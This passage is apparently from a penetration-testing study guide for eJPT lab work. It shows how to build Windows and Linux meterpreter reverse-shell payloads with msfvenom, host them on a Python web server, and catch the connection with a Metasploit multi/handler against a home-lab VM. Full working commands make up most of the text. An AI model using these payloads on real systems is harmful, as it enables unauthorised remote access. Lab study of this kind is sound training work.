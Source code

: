* When generating a payload the exact name of the payload must be specified
  * target operating system
  * target O.S. architecture (x64, x86 ...)
  * payload type
  * protocol used to connect back (depends on requirements)

![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-8374500896fdbc9698dcf904ca377f5d0d9a4158%2Fimage-20230415190726950.png?alt=media)**`e.g.`** of **Staged payload**

* `windows/x64/meterpreter/reverse_tcp`

**`e.g.`** of **Non-Staged payload**

* `windows/x64/meterpreter_reverse_https`

![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-034cc3f4b42408fe6a3e0fb23ba7a745fa9482de%2Fimage-20230415191239575.png?alt=media)

* Generate a Windows payload with `msfvenom`

**32bit payload:**msfvenom -a x86 -p windows/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f exe > /home/kali/certs/ejpt/Windows\_Payloads/payloadx86.exe​# LHOST = Attacker IP address**64bit payload:**msfvenom -a x64 -p windows/x64/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f exe > /home/kali/certs/ejpt/Windows\_Payloads/payloadx64.exe

* List the output formats available

msfvenom --list formatsFramework Executable Formats \[--format \<value>]===============================================Name----aspaspxaspx-exeaxis2dllducky-script-pshelfelf-soexeexe-onlyexe-serviceexe-smallhta-pshjarjsploop-vbsmachomsimsi-nouacosx-apppshpsh-cmdpsh-netpsh-reflectionpython-reflectionvbavba-exevba-pshvbswar​Framework Transform Formats \[--format \<value>]==============================================Name----base32base64bashccsharpdwdwordgogolanghexjavajs\_bejs\_lenimnimlangnumperlplpowershellps1pypythonrawrbrubyrustrustlangshvbapplicationvbscript

* Generate a Linux payload with `msfvenom`

**32bit payload:**msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f elf > /home/kali/certs/ejpt/Linux\_Payloads/payloadx86**64bit payload:**msfvenom -p linux/x64/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f elf > /home/kali/certs/ejpt/Linux\_Payloads/payloadx64

* 📌 _Platform and architecture are auto selected if not specified, based on the selected payload_

![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-5623729fc9d37d7c64ce35442c390f254debe1be%2Fimage-20230415192514206.png?alt=media)The transferring method onto the target system depends on the type of the social engineering technique.

* **`e.g.`** A simple web server can be set up on the attacker system to serve the payload files and a handler to receive the connection back from the target system

cd /home/kali/certs/ejpt/Windows\_Payloadssudo python -m http.server 8080

* To deal with a `meterpreter` payload, an appropriate listener is necessary to handle the reverse connection, the `multi/handler` Metasploit module in this case

msfconsole -quse multi/handlerset payload windows/meterpreter/reverse\_tcpset LHOST 192.168.31.128set LPORT 1234run

* Download the payload on the Windows 2008 system (in this case my home lab VM) from this link
  * `http://192.168.31.128:8080`
  * Run the `payloadx86.exe` payload on the target
* The `meterpreter` session on the attacker machine should be opened
